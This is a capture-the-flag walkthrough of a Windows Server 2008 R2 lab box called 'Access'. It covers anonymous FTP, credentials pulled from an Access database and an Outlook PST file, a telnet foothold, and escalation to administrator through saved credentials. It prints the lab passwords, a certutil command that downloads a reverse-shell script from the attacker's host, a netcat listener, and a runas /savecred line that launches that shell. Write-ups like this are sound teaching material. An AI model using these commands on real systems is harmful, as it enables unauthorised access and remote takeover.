




## Overview

Access is a Windows Server 2008 R2 box running an telnet, IIS, and ftp. Sensitive data was exposed on the ftp server which provided valid logon credentials for telnet and provided the initial foothold as user.  Enumeration of the system lead to cached credentials which were used to switch to the administrator account.

## Enumeration

**Software**  

* Windows Windows Server 2008 R2 Standard  
* Microsoft Windows XP telnetd  
* IIS 7.5  

**Open Ports**  

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/access/results/10.10.10.98/scans/_full_tcp_nmap.txt -oX /mnt/data/boxes/access/results/10.10.10.98/scans/xml/_full_tcp_nmap.xml 10.10.10.98  
```

* 21/tcp - ftp  

* 23/tcp - telnet  

* 80/tcp - http  

## Steps (User)

I started by browsing to the website on port 80. There wasn't much to it, just a single picture of what looked like server racks with the caption “LON-MC6”. I didn't find anything interesting so I decided to log onto the ftp server which I was able to log into anonymously. 

There were two folders, Engineer and Backups. I pulled down backup.mdb from Backups and Access Control.zip From Engineer. The zip file was password protected and running fcrackzip with the rockyou password was unsuccessful. On to the mdb file...

Since I use a Linux box, I wasn't able to open the mdb file natively (it's an Access database).  I tried a few different approaches to get it to open with Libre Office but ultimately I settled on mdbtools. WIth mdb-sql I was able to query the database via the command line. After listing the tables I came across auth_user which looked interesting.



This table contained a few different passwords. The output was terrible so I had to scroll around a bit and found 3 username/password entries: admin/admin, engineer/access4u@security, and backup_admin/admin.



I had to do some searching to figure out the best way to read pst files on a linux box and decided to go with readpst. Using readpst I convereted the .pst file to an .mbox file. I was then able to open it in a text editor which showed an email containing the security account password.

security/4Cc3ssC0ntr0ller

With that username and password I was able to successfully log in via telnet and get the user flag.  

## Steps (root/system)

After poking around the system a bit I did not find any obvious privilege escalation paths, so I tranferred winpeas to the box and ran it. Not much of anything interesting except for some saved credentials for the administrator account. Running cmdkey /list showed that the credentials for the administrator account were saved.



I made a copy of Invoke-PowerShellTcp on my local machine and added Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.20 -Port 4200 to the end so it would automatically call cmdlet.  

I downloaded Invoke-PowerShellTcp.ps1 via certutil  

```
certutil -urlcache -split -f http://10.10.14.20:8080/Invoke-PowerShellTcp.ps1
```

Started reverse shell with netcat on my machine 

```
nc -lvnp 4200
```

And used the runas command to use the saved credential to launch Invoke-PowerShellTcp which called back to my machine.

```
runas /savecred /user:ACCESS\Administrator "powershell -exec bypass c:\users\public\invoke-powershellltcp.ps1"
```

Shell as administrator


